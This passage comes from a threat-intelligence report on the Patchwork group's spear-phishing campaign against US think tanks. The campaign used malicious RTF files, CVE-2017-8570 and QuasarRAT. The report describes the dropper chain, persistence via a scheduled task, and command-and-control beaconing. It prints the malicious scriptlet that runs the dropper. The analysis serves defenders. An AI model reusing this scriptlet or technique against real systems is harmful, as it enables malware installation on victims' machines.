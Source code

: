 The images below are what a target user opening a malicious RTF document would see from within Microsoft Word.

When the malicious RTF document is opened, two things happen that allow the attacker malware to run. First, the "packager trick" is leveraged in order to embed the initial QuasarRAT dropper (qrat.exe) in the malicious RTF document. Its called the "packager trick" because any file embedded in an RTF file using packager will be automatically dropped to the %tmp% folder (c:\Users\%username%\AppData\Local\Temp) when the RTF document is opened. Second, the threat actors exploit CVE-2017-8570 to achieve code execution via a malicious "scriptlet" file, or .sct file, which is also embedded in the malicious RTF document. The contents of the malicious scriptlet file (displayed below) clearly show the threat actor executing the initial "qrat.exe" dropper from the current user's %tmp% directory.

Note: The scriptlet code is an exact match to that shown on the Github page referenced earlier for CVE-2017-8570. The string "fjzmpcjvqp" is unique and not something likely to be present if the code was not generated with the same public POC exploit code.
<?XML version="1.0"?>
<scriptlet>
<registration description="fjzmpcjvqp"
progid="fjzmpcjvqp"
version="1.00"
classid="{204774CF-D251-4F02-855B-2BE70585184B}"
remotable="true" >
</registration>
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd /c %tmp%\\qrat.exe",0,false);
exit();
]]>
</script>
</scriptlet>
After the initial dropper (qrat.exe) has been executed by the embedded scriptlet, it creates a directory in C:\Users\%username%\AppData\Roaming\Microsoft Network\microsoft_network\1.0.0.0 and unpacks/drops the final QuasarRAT binary named microsoft_network.exe. 

The malware also contains an embedded .NET wrapper DLL for creating and managing scheduled tasks on Windows systems. The file, named Microsoft.Win32.TaskScheduler.dll, is digitally signed by a certificate from AirVPN.

This DLL is used to create a scheduled task that points to the QuasarRAT binary, microsoft_network.exe, allowing it to remain persistent after reboot.

As seen in the image above, the QuasarRAT scheduled task is named Microsoft_Security_Task and runs at 12:00 AM each day. Once the task is triggered, it will then repeat every 5 minutes for 60 days. When executed, microsoft_network.exe will initiate a request to freegeoip.net in order to determine the geographical location of the infected host. Immediately following the request, the malware will begin to beacon over an encrypted connection to the threat actor's command and control domain tautiaos.com (43.249.37.199). Several related samples were identified and are included in the File Indicators section below.
Conclusion
The addition of US-based think tanks to the list of organizations in the crosshairs of Patchwork shows an increasing diversity in the geographic regions being targeted. While there were a few peculiar components to some of the spear phish messages, the campaigns and themes were strategically relevant to the organizations being targeted. The Patchwork threat actors also appear to have adopted a technique seen from other APT groups where they are now tracking the effectiveness of their campaigns by recording which recipients have opened the phishing message. This information allows a threat actor to determine if their messages were delivered, which users are more susceptible to opening them, and basic information regarding the target's operating system and e-mail client (or browser). Finally, although the payload observed being delivered by Patchwork in these campaigns is a readily available open source RAT, it does allow for flexibility in interacting with compromised machines without needing to use custom malware. Volexity is actively tracking this group and the infrastructure currently in use for the benefit of its network security monitoring and threat intelligence customers.
File Indicators
Samples Observed from Spear Phishing Messages Above

